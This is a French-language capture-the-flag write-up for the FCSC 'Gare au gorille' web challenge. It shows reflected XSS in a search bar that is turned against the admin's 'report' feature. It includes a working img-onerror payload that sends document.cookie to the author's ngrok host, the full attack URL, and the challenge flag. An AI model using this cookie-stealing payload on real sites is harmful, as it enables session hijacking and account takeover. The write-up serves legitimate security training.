# Gare au gorille - Write up

# Enoncé :

![writeup](https://user-images.githubusercontent.com/66923124/167406724-b4e0f045-746d-4215-976b-685f23b1b6f7.png)

# Résolution :

On arrive sur le site web suivant :

![writeup](https://user-images.githubusercontent.com/66923124/167406869-a8f60732-9926-41ca-895b-f2e18dc08fa3.png)

Tentons une XSS sur la barre de recherche :

![writeup](https://user-images.githubusercontent.com/66923124/167407044-4bcaecb5-a3c3-49ee-b31e-8559214dc5f6.png)

![writeup](https://user-images.githubusercontent.com/66923124/167407111-6d63f8e8-c7d4-4efb-97a2-5cce8012ca64.png)

Parfait, le site est bien vulnérable.

En cliquant sur une des images, on remarque une icône avec un petit drapeau :

![writeup](https://user-images.githubusercontent.com/66923124/167407256-fb557446-22df-4fb3-b44d-fdb8bc047ede.png)

Cliquons dessus pour voir :

![writeup](https://user-images.githubusercontent.com/66923124/167407468-a5a08b42-669a-482f-a029-ac7c06816d16.png)

On est redirigé vers cette URL : ```https://gare-au-gorille.france-cybersecurity-challenge.fr/report?url=/?search=meme_01.jpg```

Comme on peut le voir, cette option permet de signaler le meme à l'admin. Exploitons cette fonctionnalité pour voler son cookie.

Tout d'abord je lance la commande ```ngrok http 8080``` pour générer une URL redirigeant le traffic sur mon port 8080 en local :

![writeup](https://user-images.githubusercontent.com/66923124/167408376-407c68de-c3fb-4103-b88f-3e5a28c66342.png)

Et j'ouvre un serveur web écoutant sur le port 8080 avec Python :

![writeup](https://user-images.githubusercontent.com/66923124/167409103-d7717926-e1e8-4a0a-8303-87f548c35936.png)

Pour finir, je crafte le payload suivant permettant de chopper le cookie afin que je le réceptionne sur mon serveur :

```
<img src=x onerror=this.src='http://329b-92-184-105-183.ngrok.io/?'.concat(document.cookie)>
```

Ainsi, en allant sur  l'URL ```https://gare-au-gorille.france-cybersecurity-challenge.fr/report?url=/search=<img src=x onerror=this.src='http://329b-92-184-105-183.ngrok.io/?'.concat(document.cookie)>```, j'obtiens le cookie de l'admin sur mon serveur :

![writeup](https://user-images.githubusercontent.com/66923124/167409558-9166479e-902f-4304-99e7-f82e059d229b.png)

Maintenant, il suffit simplement de copier coller le cookie de l'admin dans mon navigateur, puis d'accéder à la page "Ajouter un meme" (c'est-à-dire la page réservé à l'admin) pour chopper le flag :

![writeup](https://user-images.githubusercontent.com/66923124/167409848-e49be72b-b4d3-41cd-89d5-c909878678ae.png)

<strong> FLAG : FCSC{14b15680de4e305b89eaa2a07b137abf4e39b5773f39a4ea7155ca5387c6f59e} </strong>
